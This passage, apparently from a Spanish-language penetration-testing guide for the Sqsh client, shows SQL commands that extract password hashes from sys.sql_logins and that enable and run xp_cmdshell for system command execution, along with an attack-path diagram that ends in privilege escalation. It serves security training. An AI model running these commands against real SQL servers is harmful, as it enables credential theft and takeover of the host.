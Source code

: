 > [!example] Explicación
> Este script determina si el servidor SQL tiene habilitada la autenticación mixta, que permite login con usuario/contraseña y es potencialmente más vulnerable a ataques de fuerza bruta.

### Ejemplo 3: Extracción de hashes de contraseña (en caso de acceso privilegiado)

```sql
-- Extraer hashes de contraseñas (requiere admin)
SELECT name, password_hash 
FROM sys.sql_logins;
\go
```

> [!warning] Uso Ético
> Este comando solo debe usarse en servidores autorizados durante pruebas de penetración legales. Extraer hashes sin autorización puede ser ilegal.

---

## Explotación de Vulnerabilidades con Sqsh

### Detección y explotación de xp_cmdshell

```sql
-- Verificar si xp_cmdshell está habilitado
SELECT name, value, value_in_use 
FROM sys.configurations 
WHERE name = 'xp_cmdshell';
\go

-- Habilitar xp_cmdshell (requiere permisos)
EXEC sp_configure 'show advanced options', 1;
\go
RECONFIGURE;
\go
EXEC sp_configure 'xp_cmdshell', 1;
\go
RECONFIGURE;
\go

-- Ejecutar comando del sistema
EXEC xp_cmdshell 'whoami';
\go
```

```mermaid
graph TD
    A[Conectar a SQL Server] --> B{Verificar xp_cmdshell}
    B -->|No habilitado| C[Intentar habilitar]
    B -->|Habilitado| D[Ejecutar comandos]
    C -->|Éxito| D
    C -->|Fallo| E[Buscar otra ruta de ataque]
    D --> F[Escalar privilegios]
```
